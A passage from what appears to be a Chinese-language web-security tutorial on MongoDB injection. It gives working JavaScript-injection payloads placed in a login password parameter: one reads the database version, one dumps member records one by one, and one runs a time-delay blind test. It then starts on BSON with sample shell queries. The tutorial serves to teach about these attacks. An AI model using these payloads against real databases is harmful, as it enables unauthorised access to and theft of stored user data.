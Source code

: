 页面返回正常，如何注入出数据呢：

```
?login=user&password=1'; var loginn = db.version(); var b='

```

看一下返回结果：

![enter image description here](http://drops.javaweb.org/uploads/images/9b1a92b443f6d651b166bb0703fe8700820dbcf9.jpg)

带入实际中$q是变为：

```
$q = "function() { var loginn = user; var passs = '1'; var loginn = db.version(); var b=''; db.members.insert({id : 2, login : loginn, pass : passs}); }"

```

获取其他数据的方法：

```
 /?login=user&password= '; var loginn = tojson(db.members.find()[0]); var b='2

```

给loginn重新赋值，覆盖原来的user内容，tojson函数帮助获取到完整的数据信息，否则的话将会接收到一个Array。

最重要的部分是db.memeber.find()[0]，member是一个表，find函数是获取到所有内容，[0]表示获取第一个数组内，可以递增获取所有的内容。

当然也有可能遇到没有返回结果的时候，经典的时间延迟注入也可以使用：

```
?login=user&password='; if (db.version() > "2") { sleep(10000); exit; } var loginn =1; var b='2 

```

### 4)BSON

BSON（Binary Serialized Document Format）是一种类json的一种二进制形式的存储格式，简称Binary JSON，它和JSON一样，支持内嵌的文档对象和数组对象，但是BSON有JSON没有的一些数据类型，如Date和BinData类型。

默认test表中有两条数据：

```
> db.test.find({}) 
{ "_id" : ObjectId("52cfa5c9e085a58263f183f9"), "name" : "admin", "isadmin" : true }
{ "_id" : ObjectId("52cfa5e4e085a58263f183fa"), "name" : "noadmin", "isadmin" : false } 

```

再插入一条：

```
> db.test.insert({ "name" : "noadmin2", "isadmin" : false}) 

```

然后查询看结果：

```
> db.test.find({})
{ "_id" : ObjectId("52cfa5c9e085a58263f183f9"), "name" : "admin", "isadmin" : true }
{ "_id" : ObjectId("52cfa5e4e085a58263f183fa"), "name" : "noadmin", "isadmin" : false }
{ "_id" : ObjectId("52cfa92ce085a58263f183fb"), "name" : "noadmin2", "isadmin" : false } 

```
